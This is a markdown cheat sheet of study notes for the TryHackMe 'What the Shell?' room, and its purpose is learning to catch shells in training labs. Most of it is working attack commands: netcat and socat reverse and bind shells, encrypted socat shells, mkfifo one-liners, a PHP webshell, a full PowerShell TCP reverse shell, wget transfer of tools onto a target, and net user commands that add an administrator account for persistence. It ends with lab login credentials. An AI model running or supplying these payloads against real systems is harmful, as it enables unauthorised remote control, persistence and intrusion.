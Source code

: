 <!-- TOC -->

- [What the Shell?](#what-the-shell)
    - [Tools](#tools)
        - [Reverse Shells](#reverse-shells)
        - [Bind Shells](#bind-shells)
    - [Netcat Shell Stabilisation](#netcat-shell-stabilisation)
        - [Fully stable Linux tty reverse shell Only for Linux:](#fully-stable-linux-tty-reverse-shell-only-for-linux)
    - [Socat Encrypted Shells](#socat-encrypted-shells)
        - [Reverse shell](#reverse-shell)
        - [Bind shell](#bind-shell)
    - [Common Shell Payloads](#common-shell-payloads)
    - [Next Step](#next-step)
    - [Practice and Examples](#practice-and-examples)

<!-- /TOC -->

# What the Shell?

[What the Shell? Room](https://tryhackme.com/room/introtoshells)

An introduction to sending and receiving (reverse/bind) shells when exploiting target machines.

## Tools

- Netcat
- Socat
- Metasploit -- multi/handler
- Msfvenom
- [Reverse Shell Generator](https://www.revshells.com/)
- [revshellgen](https://github.com/t0thkr1s/revshellgen)
- `/usr/share/webshells`

### Reverse Shells

```bash
nc -lvnp <port-number>
```

```bash
socat TCP-L:<port> -
```

Be aware that if you choose to use a port below 1024, you will need to use `sudo` when starting your listener. That said, it's often a good idea to use a well-known port number (`80`, `443` or `53` being good choices) as this is more likely to get past outbound firewall rules on the target.

To connect back:

- On Windows:

```cmd
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

- On Linux:

```bash
nc <target-ip> <chosen-port>
```

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


### Bind Shells

```bash
nc -lvnp <PORT> -e /bin/bash
```

- On Linux:

```bash
socat TCP-L:<PORT> EXEC:"bash -li"
```

- On Windows:

```cmd
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

We use the `pipes` argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

To connect:

```bash
nc <LOCAL-IP> <LOCAL-PORT>
```

```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

## Netcat Shell Stabilisation

- `python` for linux
    1. `python -c 'import pty;pty.spawn("/bin/bash")'` - Note: some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required.
    2. `export TERM=xterm` - this will give us access to term commands such as `clear`.
    3. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note: if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

- `rlwrap` for windows
    - `sudo apt install rlwrap`
    - `rlwrap nc -lvnp <port>`

Note: when dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

- `socat` for linux
    - Transfer a socat static compiled binary up to the target machine. `sudo python3 -m http.server 80`, then, on the target machine, `wget <LOCAL-IP>/socat -O /tmp/socat`.

 If you want to use something like a text editor which overwrites everything on the screen.

Open another terminal and run:

 ```bash
stty -a
 ```

 In your reverse/bind shell, type in:

 ```bash
stty rows <number>
stty cols <number>
 ```

### Fully stable Linux tty reverse shell (Only for Linux):

Here is the new listener syntax:

```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

The special command is as follows:

```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

[Precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

- `pty`, allocates a pseudoterminal on the target -- part of the stabilisation process
- `stderr`, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- `sigint`, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- `setsid`, creates the process in a new session
- `sane`, stabilises the terminal, attempting to "normalise" it.

## Socat Encrypted Shells

Generate a cert:

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```

### Reverse shell

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

Note: that the certificate must be used on whichever device is listening.

To connect back:

```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

### Bind shell

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:

```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

## Common Shell Payloads

Bind:

```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Reverse:

```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Webshell (PHP):

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

Powershell:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Next Step

For Windows only:

```cmd
net user <username> <password> /add
```

```cmd
net localgroup administrators <username> /add
```

## Practice and Examples

| Title | IP Address | Username | Password |
| :---- | :---- | :---- | :---- |
| Linux Shell Practice | `1*.**.***.***` | shell | TryH4ckM3! |
| Win Shell Practice | `1*.**.***.***` | Administrator | TryH4ckM3! |
